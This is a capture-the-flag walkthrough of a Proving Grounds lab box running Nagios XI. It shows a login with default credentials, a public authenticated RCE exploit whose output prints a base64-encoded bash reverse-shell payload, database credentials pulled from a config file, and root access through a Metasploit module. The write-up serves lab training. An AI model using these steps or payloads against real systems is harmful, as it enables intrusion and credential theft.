




# PG Play - Monitoring

#### Ip: 192.168.209.136
#### Name: Monitoring
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I'll also use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/PG/Play/Monitoring]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 192.168.209.136
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-31 14:41 CDT
Nmap scan report for 192.168.209.136
Host is up (0.079s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b88c40f65f2a8bf792a8814bbb596d02 (RSA)
|   256 e7bb11c12ecd3991684eaa01f6dee619 (ECDSA)
|_  256 0f8e28a7b71d60bfa62bdda36dd14ea4 (ED25519)
25/tcp   open  smtp       Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-09-08T17:59:00
|_Not valid after:  2030-09-06T17:59:00
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Nagios XI
|_http-server-header: Apache/2.4.18 (Ubuntu)
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Nagios XI
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.18 (Ubuntu)
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2020-09-08T18:28:08
|_Not valid after:  2030-09-06T18:28:08
5667/tcp open  tcpwrapped
Service Info: Host:  ubuntu; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.92 seconds
```

Looking at port 80 we find a Nagios landing page with a link to `/nagiosxi`. 





Looking around online I see that the default username is nagiosadmin, and after a couple of guesses I found the correct password of admin, and was able to login to the site. nagiosadmin:admin

### Exploitation

Armed with these credentials I went looking for public exploits against Nagios XI and found: https://www.exploit-db.com/exploits/49422.

This exploit appears to exploit the Nagios Session Protection feature that is used in monitoring plugins and is supposed to protect agains CSRF.

With no modifications needed to the script I was able to catch a reverse shell back in my NC listener:

```text
┌──(ryan㉿kali)-[~/PG/Play/Monitoring]
└─$ python nagiosxi_rce.py http://192.168.209.136 nagiosadmin admin 192.168.45.208 443 
[+] Extract login nsp token : b8d028470140b5d61599bd5e4cda456c6808f3f4eadcd59b11edd50b26b89a34
[+] Login ... Success!
[+] Request upload form ...
[+] Extract upload nsp token : 11cb84c0bc3a38a6842ce1d1d71b85a7a13345ce0527d7fe6714f24395dcf04c
[+] Base64 encoded payload : ;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIwOC80NDMgMD4mMQ== | base64 -d | bash;#
[+] Sending payload ...
[+] Check your nc ...
```

```text
┌──(ryan㉿kali)-[~/PG/Play/Monitoring]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.208] from (UNKNOWN) [192.168.209.136] 48648
bash: cannot set terminal process group (966): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/usr/local/nagiosxi/html/admin$ whoami
whoami
www-data
www-data@ubuntu:/usr/local/nagiosxi/html/admin$ hostname
hostname
ubuntu
```
Out of curiosity I went back and checked the `/admin/monitoringplugins.php` page used in the exploit and sure enough we found our malicious plugin:



### Privilege Escalation

Not finding any local.txt flag, I decided to focus on escalating my privileges next. 

Navigating around the box I notice the config.inc.php file in `/var/www/html`, which has more credentials:

```
// DB-specific connection information
$cfg['db_info'] = array(
    "nagiosxi" => array(
        "dbtype" => 'mysql',
        "dbserver" => '',
        "user" => 'nagiosxi',
        "pwd" => 'n@gweb',
        "db" => 'nagiosxi'
```

I can use these credentials to login to mysql:

```
www-data@ubuntu:/usr/local/nagiosxi/html$ mysql -u nagiosxi -pn@gweb
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 2373
Server version: 5.7.31-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| nagiosxi           |
+--------------------+
2 rows in set (0.00 sec)

mysql> use nagiosxi;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------+
| Tables_in_nagiosxi  |
+---------------------+
| xi_auditlog         |
| xi_auth_tokens      |
| xi_cmp_trapdata     |
| xi_cmp_trapdata_log |
| xi_commands         |
| xi_eventqueue       |
| xi_events           |
| xi_meta             |
| xi_mibs             |
| xi_options          |
| xi_sessions         |
| xi_sysstat          |
| xi_usermeta         |
| xi_users            |
+---------------------+
14 rows in set (0.00 sec)

mysql> select * from xi_users;   
+---------+-------------+--------------------------------------------------------------+----------------------+----------------+----------------------------------+---------+------------------------------------------------------------------+-------------+----------------+--------------+----------------------+------------+-------------+----------------+------------+--------------+
| user_id | username    | password                                                     | name                 | email          | backend_ticket                   | enabled | api_key                                                          | api_enabled | login_attempts | last_attempt | last_password_change | last_login | last_edited | last_edited_by | created_by | created_time |
+---------+-------------+--------------------------------------------------------------+----------------------+----------------+----------------------------------+---------+------------------------------------------------------------------+-------------+----------------+--------------+----------------------+------------+-------------+----------------+------------+--------------+
|       1 | nagiosadmin | $2a$10$c26dab3cb40383360d8e9uqHF.4fqxdeWeQechX1F7CjMl6j0rF2u | Nagios Administrator | root@localhost | HGsQ8GQHVNFsl52abBDHUXoQMGPKs7bp |       1 | BYFOBd32Oe6ToIJGKbDM9LL0mUp0ocbgrP42imj6EoZi7YXQpQSCBESdOidcNIre |           1 |              0 |            0 |                    0 | 1717186930 |           0 |              0 |          0 |            0 |
+---------+-------------+--------------------------------------------------------------+----------------------+----------------+----------------------------------+---------+------------------------------------------------------------------+-------------+----------------+--------------+----------------------+------------+-------------+----------------+------------+--------------+
1 row in set (0.00 sec)
```

Looking at these results I realized that we already have the nagiosadmin password (admin), and here in mysql the contact email for nagiosadmin is root@localhost. We can't just `su root` and enter admin, but maybe we could find another exploit that attacks the vulnerabilty as well as escalates the shell.

Looking around I find several different exploits attempting this, but unfortunately kept running into PHP issues and was unsuccesful. Before moving on I decided to give Metasploit a hail-Mary shot, and it worked! I was able to exploit the RCE vulnerabilty, and this specific Metasploit module also used a malicious check_ping plugin and escalated us to root:

```text
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.45.208:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.0
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3045348 bytes) to 192.168.209.136
[*] Meterpreter session 1 opened (192.168.45.208:4444 -> 192.168.209.136:43960) at 2024-05-31 16:09:38 -0500
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > shell
Process 23084 created.
Channel 1 created.

whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
python3 -c 'import pty;pty.spawn("/bin/bash")'

root@ubuntu:/usr/local/nagiosxi/html/includes/components/profile#
```

From here we can grab our flag:



Thanks for following along!

-Ryan

-----------------------------------------------------
